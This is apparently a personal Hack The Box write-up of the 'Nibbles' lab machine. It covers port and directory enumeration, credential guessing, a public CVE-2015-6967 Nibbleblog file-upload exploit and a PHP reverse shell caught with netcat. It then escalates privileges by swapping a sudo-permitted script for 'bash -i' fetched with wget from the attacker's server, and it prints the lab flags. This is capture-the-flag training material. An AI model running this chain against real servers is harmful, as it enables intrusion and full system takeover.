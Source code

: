 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Nibbles
tags: []
---
```

**Start 17:52 24-08-2024**

---
```
10.10.10.75
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -p1-100 10.10.10.75      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 16:52 IST
Nmap scan report for 10.10.10.75
Host is up (0.087s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.85 seconds
```

I added the webserver to my `/etc/hosts` under `nibbles.htb` and went searching.

### 80/TCP - HTTP

![](../../../assets/46ccb73fc59b7af149b0fd4bafeec9c7.png)

This is the only thing that popped up, but when I viewed the page source I found another sub-directory:

![](../../../assets/a1469add23361ef758f6e66548d8eb3a.png)

So I went to that endpoint to check it out.

![](../../../assets/9c2e87846cfe0cd7a5dfe73cc8e6af21.png)


After finding this sub-directory I decided to enumerate further using `dirsearch`, here I got the following output:

```bash
└─$ dirsearch -u http://nibbles.htb/nibbleblog/ -x 403,404,400
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: 

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

[17:01:55] Starting: nibbleblog/
[17:02:07] 301 -  321B  - /nibbleblog/admin  ->  http://nibbles.htb/nibbleblog/admin/
[17:02:07] 200 -  606B  - /nibbleblog/admin.php                             
[17:02:07] 200 -  516B  - /nibbleblog/admin/                                
[17:02:08] 301 -  332B  - /nibbleblog/admin/js/tinymce  ->  http://nibbles.htb/nibbleblog/admin/js/tinymce/
[17:02:08] 200 -  563B  - /nibbleblog/admin/js/tinymce/
[17:02:19] 200 -  485B  - /nibbleblog/content/                              
[17:02:19] 301 -  323B  - /nibbleblog/content  ->  http://nibbles.htb/nibbleblog/content/
[17:02:19] 200 -  724B  - /nibbleblog/COPYRIGHT.txt                         
[17:02:29] 200 -   92B  - /nibbleblog/install.php                           
[17:02:29] 200 -   92B  - /nibbleblog/install.php?profile=default           
[17:02:30] 301 -  325B  - /nibbleblog/languages  ->  http://nibbles.htb/nibbleblog/languages/
[17:02:31] 200 -   12KB - /nibbleblog/LICENSE.txt                           
[17:02:42] 301 -  323B  - /nibbleblog/plugins  ->  http://nibbles.htb/nibbleblog/plugins/
[17:02:42] 200 -  694B  - /nibbleblog/plugins/
[17:02:45] 200 -    5KB - /nibbleblog/README                                
[17:02:53] 301 -  322B  - /nibbleblog/themes  ->  http://nibbles.htb/nibbleblog/themes/
[17:02:53] 200 -  498B  - /nibbleblog/themes/                               
[17:02:54] 200 -  815B  - /nibbleblog/update.php
```

Right away I noticed that on `/admin` there was a login screen but what was more interesting to me was the `README` endpoint:

![](../../../assets/2d8d76b4e9f1ca4a581e7333fb4d9753.png)

When I enumerated the directories further I got some other endpoints which I could check out:

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://nibbles.htb/nibbleblog/content/ -x 403,404,400
  _|. _ _  _  _  _ _|_    v0.4.3                                                 
 (_||| _) (/_(_|| (_| )               
  
Target: http://nibbles.htb/

[17:14:17] Starting: nibbleblog/content/                                          
[17:15:01] 301 -  331B  - /nibbleblog/content/private  ->  http://nibbles.htb/nibbleblog/content/private/
[17:15:01] 301 -  330B  - /nibbleblog/content/public  ->  http://nibbles.htb/nibbleblog/content/public/
[17:15:01] 200 -  504B  - /nibbleblog/content/public/                       
[17:15:10] 200 -  412B  - /nibbleblog/content/tmp/                          
[17:15:10] 301 -  327B  - /nibbleblog/content/tmp  ->  http://nibbles.htb/nibbleblog/content/tmp/

Task Completed  
```

![](../../../assets/ca33fa45010e49ff5d413d21e0d29643.png)

I then went to the `/nibbleblog/content/private/users.xml` directory and found this:

![](../../../assets/f0117fa137f3723aefcfc8190d8f6a6b.png)

By random guesswork I found the credentials to be `admin - nibbles`.

## Manual Exploitation

### CVE-2015-6967
Using the following [Google Dork](Google%20Dorking.md) I was able to find an [Arbitrary File Upload](https://github.com/dix0nym/CVE-2015-6967) exploit for this version:

```bash
# Google Dork
site:github.com CVE-2015 Nibbleblog 4.0.3
```

![](../../../assets/701318043c94c9eb07d565da45db06d5.png)

I then downloaded the exploit, set up my `php reverse shell` and a listener, and then run the exploit:

![](../../../assets/7be0b622165f9be3dd82cfd01488db54.png)

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                                 
listening on [any] 1234 ...
```

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.
```

And we see a shell return:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                                 
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.75] 37790
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:00:06 up  5:26,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$
```

Before continuing on I stabilize the shell:

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
nibbler@Nibbles:/$ 
```


### user.txt
As the `nibbler` user we go to `/home/nibbler` where we find the first flag:

```bash
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
f5c92f5e72ffd933e8c45a46b109cc5b
```


## Privilege Escalation

I run `sudo -l` to gather `OS info` and find the following:

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Apparently we can run `/monitor.sh` as `root`!
In order to get to the file I `unzipped` the `personal.zip` folder and moved towards the `monitor.sh` file where we apparently have full `RWX` permissions:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

This  means we can just go ahead and modify the file to our content. I decided to go ahead and `rm` the `monitor.sh` file and instead make my own super simple file and upload it using `wget`.

```bash
# monitor.sh

bash -i
```

```bash
chmod +x monitor.sh
```

I then started up a `python` server:

```bash
python3 -m http.server 80
```

And on the target machine executed the following command:

```bash
wget http://10.10.14.5/monitor.sh
```

![](../../../assets/50d84f269373015dc2080b8d586b0c1a.png)

I had to `chmod +x` the file again for some reason:

![](../../../assets/1fd7588a5c6215426f5857adb9c94ef6.png)

### root.txt

From here it's easy peasy:

```bash
root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
cat /root/root.txt
b58405fd17f79892e84c03ecbbc1925b
```


![](../../../assets/1a7392fba6c693773421a7e6794360c3.png)

---

**Finished 19:16 24-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
